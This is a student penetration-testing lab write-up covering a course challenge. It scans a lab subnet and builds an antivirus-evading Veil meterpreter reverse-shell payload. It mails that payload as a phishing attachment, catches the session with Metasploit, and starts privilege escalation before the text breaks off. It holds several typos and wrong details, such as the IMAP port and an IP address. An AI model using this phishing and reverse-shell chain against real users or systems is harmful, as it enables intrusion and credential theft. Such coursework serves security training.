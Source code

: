 # Assigment 3
For full executive report, see [PWNChallenge3_GabriellaAhn](https://github.com/haein001/CMU_penetration-testing/blob/52cdf24de5320f4bfafb1f88050de00cfb7c3d1f/pwnchallenge3/PWNChallenge%233.pdf).

1. Scan the host for open ports.

    ``
    nmap -open 10.20.160.10-150
    ``

    10.20.160.10 and 1020.160.86 hosts are found from 10.20.160.10-150.

2. Conduct more thorough scan of 10.20.160.10.
   
    ``
    nmap -A 10.20.160.10
    ``
    
    - **Port 25(smtp)**: the default port for relaying email on the internet.
    
    - **Port 110(pop3)**: used by the POP3 protocol for unencrypted access to electronic mail.
    
    - **Port 142(IMAP)**: a mail protocol used to access a mailbox on a remoteserver from a local email client.
    
3. To use email vulnerable, use Veil to create payload that could be attached in the email.
    
    - **Veil**: a tool to generate payload executables that bypass common antivirus.

    ``
    languge: powershell
    ``
    
    ``
    payload module: powershell/meterpreter/rev_tcp
    ``
    
4. To send email and get the respose, exploit handler first.
    
    - **Handler**: a process attacking mackine(metasploit) that listens and responds to connections made from the target.
    
    ``
    use multi/handler
    ``
   
5. Set payload.
   
    ``
    set PAYLOAD windows/meterpreter/reverse_tcp
    ``

6. Then, exploit

    ``
    exploit
    ``
    
    Now, handler is on.
    
7. Send phishing email attaching the bat file made from Veil.

    ``
   sendEmail -f caspian@dotcof.net -t olivia@pwn3.local -u update -m update -s 10.20.160.10 -a /var/lib/veil/output/source/update.bat -o tls=no
    ``

8. Successfully sending the email, new session 10.20.160.86 is opened. We are able to go into Olivia's desktop.
    
    ``
    type local.txt
    ``

9. To get proof.txt, we need to escalate the privilege.

    - **Local Explout Suggester:** post-exploitation module that you can use to check a system for local
vulnerabilities

    ``
    use  multi/recon/local_exploit_suggester
    ``
    
    ``
    exploit
    ``
    
10. Check the server username to see it has changed to authority.

    ``
    get uid
    ``
    
11  Then, use windows command to search the proof.txt.
